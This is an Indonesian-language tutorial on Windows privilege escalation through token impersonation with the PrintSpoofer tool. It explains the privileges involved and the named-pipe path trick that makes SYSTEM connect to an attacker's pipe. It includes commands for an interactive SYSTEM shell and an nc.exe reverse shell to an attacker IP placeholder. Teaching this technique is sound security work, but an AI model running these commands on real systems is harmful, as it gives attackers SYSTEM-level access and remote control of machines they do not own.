 ```yaml
---
title: "[Windows PrivEsc] Token Impersonation (SeImpersonatePrivilege and SeAssignPrimaryTokenPrivilege)"
author: "novran"
date: 2024-11-20 00:00:00 +0700
categories: [Windows Privilege Escalation]
tags: [Windows Privilege Escalation]
image:
  path: /images/2024-11-20-windows-privilege-escalation-sebackupprivilege-dump-sam-system-ntds-dit-banner.png
---
```


Impersonate adalah hak istimewa di Windows yang memungkinkan kita untuk menyamar sebagai User lain (termasuk menyamar sebagai **NT AUTHORITY\SYSTEM**) untuk menjalankan sebuah tugas atau proses di bawah naungan User tersebut.

> **Why?**
> 
> Kita ambil contoh Service IIS (Web Server).

Ketika User yang menjalankan service IIS bukanlah **NT AUTHORITY\SYSTEM**, maka proses yang dijalankan oleh Service tersebut mungkin tidak memiliki Privilege yang cukup untuk mengakses semua sumber daya (Resource) yang dibutuhkan oleh IIS untuk mengoperasikan Web Server secara keseluruhan.

Namun **dengan menggunakan Impersonation, layanan IIS masih dapat menjalankan tugas tertentu yang memerlukan hak istimewa tanpa harus (User IIS-nya) di-setting menggunakan Role khusus**. Jadi, dengan ini, layanan IIS **masih dapat melanjutkan tugasnya tanpa harus terhenti hanya karena user IIS tidak memiliki Role yang setara** dengan _NT AUTHORITY\SYSTEM_.

# Abuse Token

| Privilege                       | Windows API Function         | Tujuan                                                              |
|---------------------------------|------------------------------|---------------------------------------------------------------------|
| `SeImpersonatePrivilege`        | [**CreateProcessWithTokenW**](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw)  | Meniru token untuk menjalankan proses dengan hak istimewa tertentu. |
| `SeAssignPrimaryTokenPrivilege` | [**CreateProcessAsUserA**](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasusera) | Mengganti token utama untuk membuat proses dengan identitas baru.   |

## PrintSpoofer (2019)

> **Affected:** Windows 10 & Server 2019
> 
> [PrintSpoofer](https://github.com/itm4n/PrintSpoofer/releases/latest) by **itm4n**, 2020

```powershell
# Interactive Shell
.\PrintSpoofer.exe -i -c cmd

# Reverse Shell
.\PrintSpoofer.exe -c "C:\Windows\temp\nc.exe <ATTACKER_IP> 443 -e cmd"
```

**Cara Kerja**

PrintSpoofer memanfaatkan Named Pipe untuk melakukan impersonasi menggunakan fungsi ImpersonateNamedPipeClient().
1. Membuat Named Pipe dengan `CreateNamedPipe()` dan memberikan akses ke semua orang.
2. Menggunakan `ConnectNamedPipe()` untuk menunggu koneksi klien.
3. Setelah koneksi diterima, `ImpersonateNamedPipeClient()` digunakan untuk mendapatkan hak akses klien dan menjalankan kode sebagai pengguna tersebut.

Untuk memaksa `SYSTEM`, PrintSpoofer menggunakan eksploitasi **PrinterBug** yang memanfaatkan fungsi `RpcRemoteFindFirstPrinterChangeNotificationEx()`. Ini digunakan oleh Print Service untuk mengirim notifikasi perubahan melalui RPC (Remote Procedure Call) menggunakan Named Pipe.

> Namun, **spoolss Named Pipe bawaan yang digunakan oleh Print Service itu sudah dimiliki oleh SYSTEM** dan tidak bisa digantikan.

**Bypass**

Trik yang digunakan yaitu dengan menambahkan karakter "/" ke dalam nama host, lalu sistem akan menganggap itu valid, sehingga validasi dapat di-bypass. Seperti `\\HOSTNAME/pipe/foo123` akan diubah menjadi `\\HOSTNAME\pipe\foo123\pipe\spoolss`. Yang artinya, kita bisa membuat Named Pipe yang terlihat seperti milik SYSTEM, sehingga SYSTEM tanpa sadar akan terhubung ke Named Pipe yang kita buat. Hasilnya, fungsi Printer akan terhubung ke Named Pipe yang sudah kita kontrol dan token SYSTEM akan kita terima.
